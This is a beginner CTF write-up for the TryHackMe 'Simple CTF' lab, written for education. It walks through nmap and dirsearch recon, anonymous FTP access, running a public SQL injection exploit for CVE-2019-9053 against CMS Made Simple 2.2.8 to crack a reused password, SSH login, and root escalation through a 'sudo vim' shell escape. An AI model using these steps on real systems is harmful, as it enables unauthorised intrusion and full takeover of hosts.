




# Simple CTF

## **Challenge Information:**

**Link:** [https://tryhackme.com/room/easyctf](https://tryhackme.com/room/easyctf)

**Difficulty:** Easy

**Category:** Boot-to-root (Web + Linux)

**Description:**

- Name: Simple CTF
- Additional Info: Beginner level CTF

<details> 
<summary> <h2> TLDR (Spoilers) </h2></summary>

A web app had `CMS Made Simple` on `/simple` directory found by fuzzing on version `2.2.8` vulnerable to unauthenticated SQLi. Credentials were obtained through and used to log in to SSH. The user had sudo permissions on `vim`through which a root shell was obtained thereby compromising the system. 

</details>

---

## Initial Reconnaissance

This is a semi guided challenge so this writeup could serve as a full guide to beginners. Always start recon with nmap scan if there is no leads. 

Nmap scan:

```bash
nmap -A -v <IP> -oN nmapresult.txt

Nmap scan report for 10.49.151.38
Host is up (0.056s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to ::ffff:192.168.253.246
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 3
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Apache2 Ubuntu Default Page: It works
| http-robots.txt: 2 disallowed entries
|_/ /openemr-5_0_1_3
2222/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 29:42:69:14:9e:ca:d9:17:98:8c:27:72:3a:cd:a9:23 (RSA)
|   256 9b:d1:65:07:51:08:00:61:98:de:95:ed:3a:e3:81:1c (ECDSA)
|_  256 12:65:1b:61:cf:4d:e5:75:fe:f4:e8:d4:6e:10:2a:f6 (ED25519)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose|specialized|phone|storage-misc
Running (JUST GUESSING): Linux 4.X|5.X|3.X (91%), Crestron 2-Series (86%), Google Android 10.X|11.X|12.X (85%), HP embedded (85%)
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5 cpe:/o:linux:linux_kernel:3 cpe:/o:crestron:2_series cpe:/o:google:android:10 cpe:/o:google:android:11 cpe:/o:google:android:12 cpe:/h:hp:p2000_g3
Aggressive OS guesses: Linux 4.15 - 5.19 (91%), Linux 4.15 (90%), Linux 3.10 - 3.13 (88%), Crestron XPanel control system (86%), Linux 3.8 - 3.16 (86%), Amazon Linux AMI 2018.03 (Linux 4.14) (85%), Android 10 - 12 (Linux 4.14 - 4.19) (85%), HP P2000 G3 NAS device (85%)
No exact OS matches for host (test conditions non-ideal).
Uptime guess: 33.188 days (since Sun Apr  5 09:14:43 2026)
Network Distance: 4 hops
TCP Sequence Prediction: Difficulty=264 (Good luck!)
IP ID Sequence Generation: All zeros
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel
```

There are 3 open ports: `21, 80, 2222`. Furthermore, anonymous login is allowed on FTP. Right of the bat, is is possible to answer 2 of the questions in the challenge. 

I focused on FTP first because of the anonymous login. 

### FTP Login

It is possible to connect to FTP through `ftp <IP>`. After inputting “anonymous” for the username, it is possible to login.

```bash
ftp 10.48.188.2

ftp> ls -al
150 Here comes the directory listing.
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 pub
226 Directory send OK.
ftp> cd pub
250 Directory successfully changed.
ftp> ls -al
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
drwxr-xr-x    2 ftp      ftp          4096 Aug 17  2019 .
drwxr-xr-x    3 ftp      ftp          4096 Aug 17  2019 ..
-rw-r--r--    1 ftp      ftp           166 Aug 17  2019 ForMitch.txt
226 Directory send OK.
ftp> get ForMitch.txt
local: ForMitch.txt remote: ForMitch.txt
200 EPRT command successful. Consider using EPSV.
150 Opening BINARY mode data connection for ForMitch.txt (166 bytes).
100% |**************************************************************|   166      111.72 KiB/s    00:00 ETA
226 Transfer complete.
166 bytes received in 00:00 (2.76 KiB/s)
ftp> exit
221 Goodbye.
```

`GET` is used to transfer files from a ftp server to our device. 

The note for Mitch reads, 

```bash
Dammit man... you'te the worst dev i've seen. You set the same pass for the system user, and the password is so weak... i cracked it in seconds. Gosh... what a mess!
```

This gives a pretty straightforward lead. The password is bruteforceable. The only login we have so far is ssh at `2222` and ftp at `21`. Before trying anything, it is important to complete recon by also checking http at `80`. 

### HTTP

The website is the typical Apache2 default page. Nmap scan showed entries in `robots.txt`, but theres the endpoint listed gives 404. I decided to fuzz for other endpoints first. 

I used dirsearch, but gobuster or ffuf also works. Command:

```bash
dirsearch -u <URL> -w <WORDLIST>

Target: http://10.48.188.2/

[14:02:30] Starting:
[14:02:47] 200 -  540B  - /robots.txt
[14:02:48] 403 -  299B  - /server-status
[14:02:48] 301 -  311B  - /simple  ->  http://10.48.188.2/simple/

Task Completed
```

The `/simple` endpoint contains a default template for the “CMS Made Simple” which is an open source template provider for Content Management System. Fortunately, the version was also present at the bottom which allows the checking of any known vulnerabilities associated with it. 



Any vulnerability associated can be checked from “exploit-db.com” or by using its command line variable through the “searchsploit” command.

```bash
searchsploit CMS Made Simple 2.2.8

--------------------------------------------------------------- ------------------------
Exploit Title                                                 |  Path
--------------------------------------------------------------- ------------------------
CMS Made Simple < 2.2.10 - SQL Injection                       | php/webapps/46635.py
------------------------------------------------------------------------- --------------
```

## Exploitation

### SQLi

The script gives the answer to another one of the questions on TryHackMe. 



`CVE-2019-9053` is a highly severe SQLi in CMS Made Simple in the `News` module. Specifically, it suffers from blind time-based SQLi through the `m1_idlist` parameter. There is also no authentication required for this, which makes it more dangerous. 

The script above also has an option to crack the password. The note in FTP already said the password was weak and easily crackable, so this option will also be used with the very common wordlist `rockyou.txt`. 

```bash
python exploit.py -u http://<IP>/simple -w /usr/share/wordlists/rockyou.txt -c

[+] Salt for password found: 1dac0d92e9fa6bb2
[+] Username found: mitch
[+] Email found: admin@admin.com
[+] Password found: 0c01f4468bd75d7a84c7eb73846e8d96
[+] Password cracked: secret
```

The exploit cracked the hash and returned the password. As the note said, the password is quite simple and easily crackable. 

### Shell as mitch

WIth these username and password, the first place I attempted it was on ssh since the note said something about reusing the same password as well. 

Here, `-p 2222` is needed since ssh uses port 22 by default. 



Then I claimed the user flag. 

```bash
$ ls
user.txt
$ cat user.txt
REDACTED
```

### Escalate to root

Before looking around for vectors, I upgraded from the basic `sh` to `bash` via python. 

```bash
$ python -c 'import pty; pty.spawn("/bin/bash")'
mitch@Machine:~$
```

The first thing I checked was what commands `mitch` can run using sudo. If a command is found that can be run as root, it is the easiest way to escalate for me. 

```bash
mitch@Machine:~$ sudo -l
User mitch may run the following commands on Machine:
    (root) NOPASSWD: /usr/bin/vim
```

Once a command is identified, the next step is to check whether it can be abused to spawn a shell or escalate privilege. The best place to check is `GTFObins.org`.



(I know it says `vi` and not `vim` but since vim just inherits from vi this will work on vim as well). 

GTFObins gives multiple commands to spawn a shell. WIth `sudo`, this shell will be spawned as root shell. 

```bash
mitch@Machine:~$ sudo /usr/bin/vim -c ':!/bin/bash' /dev/null

root@Machine:~# id
uid=0(root) gid=0(root) groups=0(root)
root@Machine:~# cd /root
root@Machine:/root# ls
root.txt
root@Machine:/root# cat root.txt
REDACTED
```

And thats the room completed. Definitely one of the better rooms in TryHackMe.

### Exploitation Chain

| **Step** | **Action** | **Result** |
| --- | --- | --- |
| 1 | Nmap scan | Identified `FTP`with `anonymous login` enabled |
| 2 | Login to FTP | Note to user `Mitch`, hinting at brute forceable pass |
| 3  | Investigate website  | Found ‘CMS Made Simple’ version 2.2.8 at `/simple` by directory fuzzing. |
| 4 | Look up version on `exploitdb` | Unauthenticated SQLi possible |
| 5 | Run exploit | Get credentials `mitch:secret` |
| 6 | Login to SSH | Obtain user flag |
| 7 | `sudo -l`  | `vim` run as root |
| 8 | Spawn shell via vim with sudo | Root shell + root flag |
